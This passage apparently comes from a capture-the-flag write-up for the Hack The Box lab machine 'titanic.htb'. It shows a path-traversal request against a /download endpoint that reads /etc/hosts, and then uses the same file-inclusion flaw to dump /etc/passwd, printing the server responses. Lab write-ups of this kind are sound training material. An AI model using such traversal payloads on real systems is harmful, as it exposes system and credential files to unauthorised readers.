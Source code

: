 ```
GET /download?ticket=../../../../../../../../../../etc/hosts HTTP/1.1
Host: titanic.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://titanic.htb/
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

We get the following response:

```
HTTP/1.1 200 OK
Date: Sat, 15 Feb 2025 20:36:10 GMT
Server: Werkzeug/3.0.3 Python/3.10.12
Content-Disposition: attachment; filename="../../../../../../../../../../etc/hosts"
Content-Type: application/octet-stream
Content-Length: 250
Last-Modified: Fri, 07 Feb 2025 12:04:36 GMT
Cache-Control: no-cache
ETag: "1738929876.3570278-250-3274903378"
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive

127.0.0.1 localhost titanic.htb dev.titanic.htb
127.0.1.1 titanic

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

# Exploitation
Using the LFI we can check `/etc/passwd` for users:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
```